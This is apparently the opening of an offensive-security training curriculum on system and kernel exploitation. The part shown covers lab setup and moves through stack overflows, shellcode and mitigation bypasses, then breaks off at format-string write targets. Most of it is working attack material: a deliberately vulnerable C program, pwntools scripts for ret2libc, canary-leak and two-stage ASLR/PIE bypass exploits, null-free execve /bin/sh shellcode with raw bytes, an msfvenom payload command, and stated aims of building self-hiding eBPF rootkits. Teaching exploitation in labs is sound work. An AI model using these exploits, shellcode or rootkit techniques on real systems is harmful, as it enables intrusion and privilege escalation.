






# PHASE 3: SYSTEM & KERNEL EXPLOITATION

**Author:** Sagar Biswas<br/>
**Version:** v0.0.0 · 2027 Edition<br/>

<div align="right">

**Where most people quit. Where real operators are made.**

</div>

**Duration:** 6-12 Months | **Difficulty:** Advanced to Extreme | **Hours/Week:** 35-40 | **Prerequisites:** Phase 2 Complete | **Completion Rate:** 20% of remaining

---

## TABLE OF CONTENTS

1. [Who This Phase Is For](#who-this-phase-is-for)
2. [Phase 3 Architecture Map](#phase-3-architecture-map)
3. [Timeline](#timeline)
4. [Goal and Checkpoints](#goal-and-checkpoints)
5. [Milestone Projects](#milestone-projects)
6. [Block 0: Environment Setup](#block-0-environment-setup)
7. [Block 1: Binary Exploitation Fundamentals](#block-1-binary-exploitation-fundamentals)
8. [Block 2: Shellcode Writing](#block-2-shellcode-writing)
9. [Block 3: Exploit Mitigations and Bypass](#block-3-exploit-mitigations-and-bypass)
10. [Block 4: Format String Vulnerabilities](#block-4-format-string-vulnerabilities)
11. [Block 5: Heap Exploitation -- Linux glibc Modern](#block-5-heap-exploitation----linux-glibc-modern)
12. [Block 6: Windows Heap Exploitation](#block-6-windows-heap-exploitation)
13. [Block 7: Linux Kernel Exploitation](#block-7-linux-kernel-exploitation)
14. [Block 8: Linux Kernel SLUB/Slab Exploitation](#block-8-linux-kernel-slubslab-exploitation)
15. [Block 9: Windows Kernel Exploitation](#block-9-windows-kernel-exploitation)
16. [Block 10: ARM64 Exploitation + PAC Bypass](#block-10-arm64-exploitation--pac-bypass)
17. [Block 11: Control Flow Guard Bypass](#block-11-control-flow-guard-bypass)
18. [Block 12: Linux eBPF Rootkits + Anti-Detection](#block-12-linux-ebpf-rootkits--anti-detection)
19. [Block 13: HVCI, VBS and Kernel Security 2026-2027](#block-13-hvci-vbs-and-kernel-security-2026-2027)
20. [Block 14: Mobile Security -- Android and iOS](#block-14-mobile-security----android-and-ios)
21. [CTF Progression and Lab Resources](#ctf-progression-and-lab-resources)

---

## WHO THIS PHASE IS FOR

You finished Phase 2. You can enumerate a network, pivot, spray credentials, break WPA2.
Now you go lower: below the application, below the OS, below the kernel.

Phase 3 teaches you to **write exploits from first principles.** Not to use Metasploit.
Not to paste PoC code. To understand what is happening at the instruction level and build
the primitive yourself. By the end of this phase you are in the top 5% of practitioners
worldwide.

**No shortcuts. No "I ran the exploit." No surface knowledge.**

---

## PHASE 3 ARCHITECTURE MAP

<div align="center">
<table><tr><td>


</td></tr></table>
</div>


## TIMELINE

| Block | Content | Duration | Difficulty |
|---|---|---|---|
| 0 | Environment Setup | 3-5 days | Medium |
| 1 | Binary Exploitation Fundamentals | 4-6 weeks | Very Hard |
| 2 | Shellcode Writing | 2-3 weeks | Very Hard |
| 3 | Mitigations and Bypass (ROP) | 4-6 weeks | Extreme |
| 4 | Format Strings | 1-2 weeks | Hard |
| 5 | Heap (Linux glibc) | 4-5 weeks | Extreme |
| 6 | Windows Heap | 3-4 weeks | Extreme |
| 7 | Linux Kernel | 4-6 weeks | Extreme |
| 8 | Linux Kernel SLUB | 2-3 weeks | Extreme |
| 9 | Windows Kernel | 4-6 weeks | Extreme |
| 10 | ARM64 + PAC Bypass | 3-4 weeks | Very Hard |
| 11 | CFG Bypass | 1-2 weeks | Extreme |
| 12 | eBPF Rootkits + Anti-Detection | 4-6 weeks | Extreme |
| 13 | HVCI / VBS | 2-3 weeks | Extreme |
| 14 | Mobile (Android + iOS + CVE) | 6-8 weeks | Very Hard |
| **TOTAL** | | **6-12 months** | |

> **Honest note on time:** 35-40 hours/week is the stated commitment. Block 0 alone can eat a week if your kernel build environment breaks. Budget for it. Blocks 7-10 regularly take longer than estimated. The range exists because depth does.

---

## GOAL AND CHECKPOINTS

**Low-level exploitation from first principles. Write exploits from scratch. Understand the CPU, the memory manager, the kernel: on Linux AND Windows, on x86-64 AND ARM64.**

By the end of Phase 3 you are dangerous to most hardened targets -- not because you run tools, but because you understand what the tools do and can rebuild them when they fail.

### What You Must Demonstrate by the End

- Write stack-based buffer overflow exploits from scratch (no tools, no pasting)
- Write custom shellcode: x86-64 Linux AND Windows syscalls, null-free
- Bypass: stack canary, NX/DEP, ASLR (information leak + ROP), PIE
- Build ROP chains manually and with pwntools
- Exploit format string vulnerabilities: leak + write on full RELRO + glibc 2.35 targets
- Exploit heap UAF/double-free using tcache poisoning with Safe-Linking bypass
- Use FSOP or `__exit_funcs` as write target on post-glibc 2.34 systems
- Write Linux kernel privilege escalation exploit (user to root) from scratch
- Perform SLUB cross-cache attack on a custom kernel module
- Execute elastic objects technique bridging two size classes
- Debug Windows kernel with WinDbg, exploit HEVD stack overflow, steal token
- Write ARM64 shellcode (execve /bin/sh) from scratch
- **Execute a data-only ARM64 exploit chain that bypasses PAC without triggering authentication failure**
- Bypass Control Flow Guard (CFG): demonstrate working bypass, not just describe it
- Write and load a working eBPF rootkit that hides a file from ls
- **Load an eBPF rootkit that also hides itself from `bpftool prog list`**
- Analyze a real CVE: root cause understood, custom PoC written, not copy-pasted
- **Walk through a complete iOS kernel UAF exploitation chain from bug to root**

---

## MILESTONE PROJECTS

All milestones require a working deliverable plus a written root cause analysis.
"It ran and gave me a shell" is **not** a deliverable. Understanding why it works is the deliverable.

| # | Project | Week | Deliverable |
|---|---|---|---|
| M1 | Stack overflow exploit (no protections) | 4-6 | Python script + root cause write-up |
| M2 | Canary + ASLR bypass via info leak + ROP | 8-12 | Working exploit + ROP chain annotated |
| M3 | Format string: leak libc + write on glibc 2.35 (no `__malloc_hook`) | 12-14 | Working exploit using FSOP or `__exit_funcs` |
| M4 | Heap UAF + tcache poisoning with Safe-Linking bypass | 16-20 | Working exploit on glibc 2.35 target |
| M5 | Linux kernel LPE: real CVE, written from scratch | 20-28 | Root shell + detailed analysis |
| M6 | Linux kernel SLUB cross-cache + elastic objects | 28-32 | Root shell via cross-cache UAF + written technique comparison |
| M7 | Windows kernel LPE: HEVD stack overflow + token steal | 32-40 | SYSTEM shell on Windows 10/11 VM |
| M8 | ARM64 shellcode execve(/bin/sh) + data-only PAC bypass demo | 40-44 | Working shellcode + PAC bypass annotated trace |
| M9 | CFG bypass PoC on a real Windows binary | 44-48 | Working bypass + explanation |
| M10 | eBPF rootkit: hide file from ls AND hide itself from bpftool | 48-52 | Working .bpf.o + loader, both capabilities verified |
| M11 | iOS CVE walkthrough: complete chain from bug to escalation | 52-56 | Written analysis + annotated skeleton exploit |

---

## BLOCK 0: ENVIRONMENT SETUP

> Beginners waste days failing because their environment is broken.
> Set this up correctly before writing one line of exploit code.

### Linux Exploitation Lab

```bash
# OS: Ubuntu 22.04 LTS (recommended -- glibc 2.35 matches real 2027 targets)
# Use a VM: VirtualBox or VMware Workstation

# Core tools
sudo apt update && sudo apt install -y \
    gcc g++ gdb python3 python3-pip git nasm \
    build-essential libc6-dbg patchelf \
    binutils elfutils ltrace strace \
    qemu-system-x86 qemu-system-arm qemu-system-aarch64 \
    libssl-dev libffi-dev clang \
    linux-headers-$(uname -r) \
    bpftool libbpf-dev fuse libfuse-dev

# pwntools
pip3 install pwntools

# Test pwntools:
python3 -c "from pwn import *; print(asm(shellcraft.amd64.linux.sh()).hex())"
# Expected: long hex string of shellcode bytes

# pwndbg (replaces vanilla GDB entirely)
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# ROPgadget / Ropper
pip3 install ROPgadget
pip3 install ropper

# checksec
pip3 install checksec

# glibc debug symbols (mandatory for heap debugging)
sudo apt install -y libc6-dbg
```

### GDB Quickstart -- Essential Commands

```bash
gdb ./binary           # load binary
r                      # run
r arg1 arg2            # run with arguments
r <<< $(python3 -c "print('A'*100)")  # run with inline payload

# Breakpoints:
b main                 # break at function name
b *0x401234            # break at exact address
b *main+32             # break at offset

# Stepping:
ni                     # next instruction (step over calls)
si                     # step instruction (step into calls)
c                      # continue
finish                 # run until current function returns

# Inspection:
x/20gx $rsp            # examine 20 quadwords at RSP
x/s 0x4040a0           # examine as string
info registers         # all registers
info proc mappings     # memory map

# pwndbg-specific:
context                # full context pane
heap                   # heap chunks
heap bins              # bin contents
vis_heap_chunks        # visual heap layout
search -s "/bin/sh"    # search all memory
cyclic 200             # De Bruijn pattern
cyclic -l 0x6161616b   # find offset
telescope $rsp         # dereference chain
```

### Windows Exploitation Lab

```
Requirements:
- Windows 10 22H2 or Windows 11 23H2 VM (user-mode exploitation)
- Windows 10 22H2 VM (TARGET for kernel debugging -- separate VM)
- WinDbg Preview (DEBUGGER -- can be on host)

Tools on the Windows VM:
1. Visual Studio 2022 Community (C/C++ workload)
2. WinDbg Preview: winget install Microsoft.WinDbgPreview
3. x64dbg: https://x64dbg.com/
4. PE-bear / CFF Explorer
5. Process Hacker 2
6. Python 3.11 + pip

For ARM64 exploitation:
- QEMU AArch64 system emulation (on Linux host)
- pwn.college ARM64 challenges (cloud-based)
```

---

## BLOCK 1: BINARY EXPLOITATION FUNDAMENTALS

**Time: 4-6 weeks | Difficulty: Very Hard**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [LiveOverflow Binary Exploitation](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeY) | YouTube | 20 hrs | FREE | Watch every video. Code along. No skipping. |
| [Smashing the Stack for Fun and Profit](http://www.phrack.org/issues/49/14.html) | Article | 3 hrs | FREE | Phrack #49. The original. Read twice. |
| [pwn.college](https://pwn.college) | Platform | 40 hrs | FREE | ASU university platform. Best structured binary course. |
| [Nightmare CTF Guide](https://guyinatuxedo.github.io/) | Guide | 15 hrs | FREE | Worked CTF examples. Excellent supplemental. |

### Memory Layout: x86-64 Linux Process

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

**Key fact:** Stack grows DOWN. When you declare local variables, they sit at LOWER addresses than the saved return address. Buffer overflow writes past the end of a local array, overwrites saved RBP, overwrites return address, giving you control of RIP.

### x86-64 Calling Convention (System V AMD64 ABI)

```
Integer/pointer arguments go in registers (left to right):
  1st arg: RDI
  2nd arg: RSI
  3rd arg: RDX
  4th arg: RCX
  5th arg: R8
  6th arg: R9
  7th+ arg: pushed on stack (right to left)

Return value: RAX (64-bit) or EAX (32-bit)

Caller-saved: RAX, RCX, RDX, RSI, RDI, R8-R11
Callee-saved: RBX, RBP, R12-R15

CRITICAL: Stack must be 16-byte aligned before CALL instruction.
After CALL pushes the return address, RSP is 8-byte aligned.
MOVAPS (SSE instructions) crash on unaligned stack.
Fix: insert a bare 'ret' gadget before calling system() to re-align.
```

### First Exploit: Stack Buffer Overflow (No Protections)

```c
// File: vuln.c
// Compile: gcc -o vuln vuln.c -fno-stack-protector -no-pie -z execstack

#include <stdio.h>
#include <string.h>

void win() {
    system("/bin/sh");
}

void vulnerable(char *input) {
    char buf[64];
    strcpy(buf, input);
    printf("You said: %s\n", buf);
}

int main(int argc, char *argv[]) {
    if (argc < 2) { puts("Usage: ./vuln <input>"); return 1; }
    vulnerable(argv[1]);
    return 0;
}
```

```bash
# Step 1: Check protections
checksec --file=./vuln
# Expected: RELRO: Partial | Stack Canary: No | NX: disabled | PIE: No

# Step 2: Find win() address
objdump -d ./vuln | grep '<win>'
# Example: 0000000000401196 <win>:

# Step 3: Find offset using De Bruijn pattern
gdb -q ./vuln
r $(python3 -c "from pwn import *; print(cyclic(200).decode())")
# Crashes with SIGSEGV -- pwndbg shows RSP value

python3 -c "from pwn import *; print(cyclic_find(0x6161616b))"
# Output: 72
# Means: 64 bytes (buf) + 8 bytes (saved RBP) = 72 bytes before return addr
```

```python
# File: exploit.py
from pwn import *

p = process('./vuln')

offset   = 72
win_addr = 0x401196     # replace with YOUR actual value

payload  = b'A' * offset
payload += p64(win_addr)

p.sendline(payload)
p.interactive()
```

### Stack Frame Visualization

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

## BLOCK 2: SHELLCODE WRITING

**Time: 2-3 weeks | Difficulty: Very Hard**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [Writing Shellcode - YouTube](https://www.youtube.com/watch?v=ixptghqAVnk) | YouTube | 3 hrs | FREE | Start here. |
| [Shell-storm Shellcode DB](http://shell-storm.org/shellcode/) | Reference | 5 hrs | FREE | Study, do not copy -- understand each one. |
| [x86-64 Linux Syscall Table](https://filippo.io/linux-syscall-table/) | Reference | 1 hr | FREE | Keep this open while writing assembly. |

### x86-64 Linux Syscall Convention

```
Syscall calling convention (x86-64 Linux):
  syscall number: RAX
  arg1:           RDI
  arg2:           RSI
  arg3:           RDX
  arg4:           R10  (NOT RCX -- differs from function calling convention)
  arg5:           R8
  arg6:           R9
  execute:        SYSCALL instruction
  return value:   RAX

KEY SYSCALL NUMBERS:
   0 = read(fd, buf, count)
   1 = write(fd, buf, count)
   2 = open(path, flags, mode)
  59 = execve(pathname, argv[], envp[])
  60 = exit(status)
 231 = exit_group(status)
```

### Minimal execve("/bin/sh") Shellcode -- x86-64 Linux

```nasm
; File: shellcode.asm
; Goal: execve("/bin/sh", NULL, NULL)
; RAX=59, RDI=ptr to "/bin/sh", RSI=NULL, RDX=NULL

section .text
global _start

_start:
    xor rdx, rdx                    ; envp = NULL
    xor rsi, rsi                    ; argv = NULL
    push rdx                        ; null terminator
    mov rax, 0x68732f2f6e69622f    ; "/bin//sh"
    push rax
    mov rdi, rsp                    ; rdi = pointer to string
    push 59
    pop rax                         ; rax = 59, no null bytes
    syscall

; Compile and test:
; nasm -f elf64 shellcode.asm -o shellcode.o
; ld shellcode.o -o shellcode
; ./shellcode
```

```bash
# Extract raw shellcode bytes:
objdump -d shellcode.o | grep -Po '[0-9a-f]{2} ' | tr -d ' \n'

# Or use pwntools:
python3 -c "
from pwn import *
context.arch = 'amd64'
context.os   = 'linux'
sc = asm(shellcraft.amd64.linux.sh())
print(f'Hex: {sc.hex()}')
print(f'Length: {len(sc)} bytes')
"

# Test shellcode in a harness:
cat > test_sc.c << 'EOF'
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>

unsigned char sc[] = "\x48\x31\xd2\x48\x31\xf6\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x6a\x3b\x58\x0f\x05";

int main() {
    void *m = mmap(NULL, sizeof(sc), PROT_READ|PROT_WRITE|PROT_EXEC,
                   MAP_ANON|MAP_PRIVATE, -1, 0);
    memcpy(m, sc, sizeof(sc));
    ((void(*)())m)();
}
EOF
gcc -o test_sc test_sc.c && ./test_sc
```

### Avoiding Null Bytes

```nasm
; PROBLEM: null bytes stop strcpy/gets depending on the vulnerability
; mov rax, 59  produces: 48 C7 C0 3B 00 00 00  (three nulls)

; SOLUTIONS:

; 1. XOR to zero a register
xor rax, rax            ; rax = 0  -- encodes as 48 31 C0 (no nulls)
xor rdx, rdx            ; rdx = 0

; 2. PUSH small immediate + POP
push 59                 ; 6A 3B (one-byte immediate, no zero padding)
pop rax                 ; 58

; 3. Build strings on the stack
xor rax, rax
push rax                 ; null terminator (instruction has no null byte)
mov rax, 0x68732f2f6e69622f   ; "/bin//sh"
push rax
mov rdi, rsp

; 4. Use test instead of cmp with zero:
; BAD:  cmp eax, 0    -- 83 F8 00 (null)
; GOOD: test eax, eax -- 85 C0    (no null)

; VERIFY your shellcode:
python3 -c "
sc = bytes.fromhex('YOUR_HEX_HERE')
if b'\x00' in sc:
    print(f'NULL BYTE at offset {sc.index(0x00)}')
else:
    print(f'Clean: {len(sc)} bytes')
"
```

### x86-64 Windows Shellcode -- PEB Walking

```nasm
; Windows does NOT use the same syscall numbers as Linux.
; Syscall numbers change between OS builds BY DESIGN to break exploits.
; Correct approach: resolve function addresses at runtime via PEB walking.

; PEB WALKING THEORY:
; PEB (Process Environment Block) is always at GS:[0x60] on x86-64 Windows.
; PEB -> PEB_LDR_DATA -> InMemoryOrderModuleList:
;   Entry 0: main executable
;   Entry 1: ntdll.dll
;   Entry 2: kernel32.dll  (what we want)
; Walk PE export table to find GetProcAddress, LoadLibraryA.
; Resolve any API at runtime.

; PATTERN in pseudocode:
; GS:[0x60]                 -> PEB
; PEB + 0x18                -> PEB_LDR_DATA*
; PEB_LDR_DATA + 0x20       -> InMemoryOrderModuleList.Flink
; Flink->Flink->Flink        -> kernel32 entry
; Entry + 0x20               -> DllBase of kernel32.dll
; Walk PE export directory   -> GetProcAddress
```

```python
# Use pwntools Windows shellcraft:
from pwn import *
context.arch = 'amd64'
context.os   = 'windows'

sc = asm(shellcraft.windows.x86_64.WinExec('cmd.exe'))
print(f'Length: {len(sc)} bytes')
print(f'Hex: {sc.hex()}')
```

```bash
# msfvenom for Windows payloads -- study the output, trace every instruction:
msfvenom -p windows/x64/exec CMD=calc.exe -f c -b '\x00'
```

---

## BLOCK 3: EXPLOIT MITIGATIONS AND BYPASS

**Time: 4-6 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [ROP Emporium](https://ropemporium.com/) | Platform | 20 hrs | FREE | Do all 8 challenges. Designed for ROP. |
| [Bypassing ASLR - YouTube](https://www.youtube.com/watch?v=7Tq7UHZXMHY) | YouTube | 2 hrs | FREE | Information leak to base calculation |
| [Ropper](https://github.com/sashs/Ropper) | Tool | 1 hr | FREE | `ropper -f binary --search "pop rdi"` |
| [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) | Tool | 1 hr | FREE | `ROPgadget --binary binary --rop` |

### Mitigation Bypass Overview

<div align="center">
<table><tr><td>



</td></tr></table>
</div>


### Stack Canary Bypass -- Format String Leak

```python
# File: bypass_canary.py
from pwn import *

# WHAT A CANARY IS:
# GCC inserts a random 8-byte value between local vars and saved RBP.
# On return: compiler checks canary vs master copy -- mismatch -> abort()
# KEY: Canaries always end in a null byte (lowest byte = 0x00).
# Format string bugs bypass this because %p reads the stack directly.

# Step 1: Find canary position
for i in range(1, 30):
    p = process('./vuln_with_canary_and_fmtstr')
    p.sendafter(b'> ', f'%{i}$p\n'.encode())
    line = p.recvline().strip()
    print(f'Arg {i:2d}: {line.decode()}')
    p.close()
# Find the one that looks like: 0x1a2b3c4d5e6f7800 (ends in 00 = canary)

CANARY_OFFSET = 11  # replace with your actual value

p = process('./vuln_with_canary_and_fmtstr')
p.sendafter(b'> ', f'%{CANARY_OFFSET}$p\n'.encode())
canary = int(p.recvline().strip(), 16)
log.success(f'Canary: {hex(canary)}')

# Step 2: Build overflow preserving the canary
payload  = b'A' * 64
payload += p64(canary)
payload += p64(0x0)
payload += p64(0x401196)   # win()

p.sendafter(b'> ', payload)
p.interactive()
```

### NX Bypass -- ret2libc

```python
# File: bypass_nx.py
from pwn import *

elf  = ELF('./vuln_nx')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p    = process('./vuln_nx')

binsh_offset = next(libc.search(b'/bin/sh'))

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]    # alignment gadget

libc.address = 0x7ffff7000000    # replace with actual libc base

system_addr = libc.symbols['system']
binsh_addr  = libc.address + binsh_offset

offset = 72

payload  = b'A' * offset
payload += p64(ret)          # align stack to 16 bytes
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

### ASLR + PIE Bypass -- Information Leak Two-Stage ROP

```python
# File: bypass_aslr_pie.py
# Stage 1: Overflow -> leak GOT address -> calculate libc base
# Stage 2: Return to main -> overflow again -> call system

from pwn import *

elf  = ELF('./vuln_aslr')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p    = process('./vuln_aslr')

rop = ROP(elf)
pop_rdi   = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_gadg  = rop.find_gadget(['ret'])[0]
puts_plt  = elf.plt['puts']
puts_got  = elf.got['puts']
main_addr = elf.symbols['main']

offset = 72

# Stage 1: Call puts(GOT[puts]) to leak real puts address
payload1  = b'A' * offset
payload1 += p64(pop_rdi)
payload1 += p64(puts_got)
payload1 += p64(ret_gadg)
payload1 += p64(puts_plt)
payload1 += p64(main_addr)

p.sendlineafter(b'> ', payload1)

leaked = p.recvline().strip().ljust(8, b'\x00')
real_puts = u64(leaked)
log.success(f'Leaked puts @ {hex(real_puts)}')

libc.address = real_puts - libc.symbols['puts']
log.success(f'libc base @ {hex(libc.address)}')

system_addr = libc.symbols['system']
binsh_addr  = next(libc.search(b'/bin/sh\x00'))

# Stage 2: system("/bin/sh") with real addresses
payload2  = b'A' * offset
payload2 += p64(ret_gadg)
payload2 += p64(pop_rdi)
payload2 += p64(binsh_addr)
payload2 += p64(system_addr)

p.sendlineafter(b'> ', payload2)
p.interactive()
```

### Building ROP Chains

```bash
# Find gadgets:
ropper -f ./binary --search "pop rdi; ret"
ropper -f ./binary --search "pop rsi; pop r15; ret"
ROPgadget --binary ./binary --rop

# Most needed gadgets:
# pop rdi; ret         set RDI (1st argument)
# pop rsi; ret         set RSI (2nd argument) -- often: pop rsi; pop r15; ret
# pop rdx; ret         set RDX (3rd argument) -- VERY rare in non-libc binaries
# ret                  stack alignment gadget
# syscall              for direct syscall ROP chains
```

```python
from pwn import *
elf  = ELF('./binary')
libc = ELF('./libc.so.6')
rop  = ROP([elf, libc])
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh'))])
print(rop.dump())
payload = flat({72: rop.chain()})
```

---

## BLOCK 4: FORMAT STRING VULNERABILITIES

**Time: 1-2 weeks | MITRE: T1203**

### How the Bug Works

```c
printf(user_input);           // VULNERABLE: user controls the format string
printf("%s", user_input);     // SAFE: format string is fixed

// %p / %x: READ  a value from the stack  -> information leak
// %n:      WRITE (bytes printed so far) to an address -> arbitrary write
```

### Step 1 -- Stack Leak via %p

```python
from pwn import *
p = process('./vuln_fmtstr')

for i in range(1, 30):
    p = process('./vuln_fmtstr')
    p.sendlineafter(b'Input: ', f'%{i}$p'.encode())
    val = p.recvline().strip()
    print(f'Arg {i:2d}: {val.decode()}')
    p.close()

# Look for:
#   0x7fff...       stack address (defeat PIE/ASLR)
#   0x7f...         libc address  (defeat ASLR)
#   0x???...???00   canary        (always ends in 00)
#   0x401...        binary .text  (defeat PIE)
```

### Step 2 -- Arbitrary Write via %n

```python
from pwn import *
p   = process('./vuln_fmtstr')
elf = ELF('./vuln_fmtstr')

# Partial RELRO example: overwrite GOT[exit] with win():
target_addr = elf.got['exit']
new_value   = elf.symbols['win']

offset = 8
payload = fmtstr_payload(offset, {target_addr: new_value})
p.sendlineafter(b'Input: ', payload)
p.interactive()
```

### Step 3 -- Post-glibc 2.34: Write Targets Without `__malloc_hook` / `__free_hook`

**CRITICAL FOR 2027:** glibc 2.34 (Ubuntu 21.10+) REMOVED `__malloc_hook`, `__free_hook`, `__realloc_hook`. Ubuntu 22.04 ships glibc 2.35. Ubuntu 24.04 ships glibc 2.39. ALL modern targets lack these hooks. Most tutorials you find online fail silently on any modern machine.

**Available write targets on glibc 2.34+:**

1. `__exit_funcs` (atexit handler list) -- easiest
2. FILE structure (FSOP -- File Stream Oriented Programming) -- powerful
3. Stack return address (requires stack leak) -- always works
4. TLS storage (`__pointer_chk_guard`) -- defeats pointer mangling

```python
